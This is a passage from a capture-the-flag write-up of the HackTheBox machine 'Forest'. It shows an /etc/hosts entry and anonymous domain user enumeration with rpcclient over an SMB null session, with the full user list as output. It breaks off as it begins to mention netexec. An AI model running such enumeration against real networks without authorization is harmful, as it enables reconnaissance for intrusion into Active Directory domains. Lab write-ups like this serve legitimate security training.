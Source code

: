 From the scan results, we got the domain name (`htb.local`) as well as the hostname of the machine (`FOREST`). We can add them to our host file:

```bash
echo -e "10.129.30.97\tFOREST FOREST.htb.local htb.local" >> /etc/hosts
```

## Foothold
___
#### User Enumeration
___
First let's see if we can enumerate users with `rpcclient` by leveraging a SMB null session:

{{<code language="bash" title="User Enumeration with rpcclient through a NUL session">}}
rpcclient -N -U "" 10.129.30.97

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
{{</code>}}

We could have also used `netexec` for this purpose:

